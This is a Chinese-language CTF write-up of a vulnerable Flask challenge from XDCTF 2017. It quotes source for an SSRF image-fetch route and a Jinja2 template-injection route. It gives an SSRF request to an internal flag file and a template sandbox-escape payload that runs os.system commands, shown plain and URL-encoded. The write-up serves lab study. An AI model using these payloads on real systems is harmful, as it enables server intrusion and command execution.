 ## 环境编译
```
docker-compose build
docker-compose up -d
```
该题是2017年XDCTF对抗赛的第一题

## 漏洞一

### SSRF漏洞
在app目录下
排除了flask的模版和静态文件等杂项，路由主要集中在auth和main文件中，先看auth
在app目录下的auth文件夹中,先看一下他的初始化文件__init__.py
![](luffy1.png)
可以看到,应用使用了蓝厂函数，url前缀是auth，然后审查views.py,在众多的路由中，最有问题的是
`
@auth.route('/getimage/<url>')
def getimage(url):
    url = base64.b64decode(url)
    img = requests.get(url)
    return img.content
`
这很显然是一个ssrf漏洞，然后我们可以构造请求
`
http://127.0.0.1:8001/auth/getimage/aHR0cDovLzEwLjAuMC4yMTEvZmxhZy50eHQ=
`
![](luffy2.png)


#### SSTI 模版注入漏洞
在auth的开头，直接调用了

```
from jinja2 import Template
```

然后在145行一个路由直接调用了该函数

```
   145	@auth.route('/test', methods=['GET', 'POST'])
   146	def test():
   147	    if request.method == 'POST':
   148	        if valid_login(request.form['username'], request.form['password']):
   149	            f = open('/tmp/' + request.form['username'], 'w+')
   150	            f.write(request.form['x'])
   151	            f.close()
   152	            f = open('/tmp/' + request.form['username'], 'r')
   153	            txt = f.read()
   154	            template = Template(txt)
   155	            return template.render()
   156	    else:
   157	        flash('just a test')
   158	        return redirect(url_for('auth.login'))
   159
   160
   161	def valid_login(username, password):
   162	    if username == base64.b64decode(password):
   163	        return True
   164	    else:
   165	        return False
```

由于模版内容是可以被控制的，导致了SSTI的漏洞

将payload

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('touch /1.txt') }}
{% endif %}
{% endfor %}
```

编码之后
```
%7b%25%20%66%6f%72%20%63%20%69%6e%20%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%5f%5f%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%20%25%7d%0a%7b%25%20%69%66%20%63%2e%5f%5f%6e%61%6d%65%5f%5f%20%3d%3d%20%27%63%61%74%63%68%5f%77%61%72%6e%69%6e%67%73%27%20%25%7d%0a%7b%7b%63%2e%5f%5f%69%6e%69%74%5f%5f%2e%66%75%6e%63%5f%67%6c%6f%62%61%6c%73%5b%27%6c%69%6e%65%63%61%63%68%65%27%5d%2e%5f%5f%64%69%63%74%5f%5f%5b%27%6f%73%27%5d%2e%73%79%73%74%65%6d%28%27%6c%73%20%2f%27%29%20%7d%7d%0a%7b%25%20%65%6e%64%69%66%20%25%7d%0a%7b%25%20%65%6e%64%66%6f%72%20%25%7d
```

![](luffy4.png)

### ssti漏洞2

[git源码地址](https://github.com/WangYihang/Attack-With-Defense-Challenges)

[漏洞详细介绍](http://skysec.top/2018/04/15/Long-Ago-AWD-Flasky/)

[模版注入的payload](https://www.xmsec.cc/ssti-and-bypass-sandbox-in-jinja2/)

[模版注入payload2](https://kevien.github.io/2018/01/16/%E4%BB%8E%E4%B8%80%E9%81%93pentesterlab%E7%9A%84%E9%A2%98%E7%9B%AE%E8%AF%B4%E8%B5%B7/)



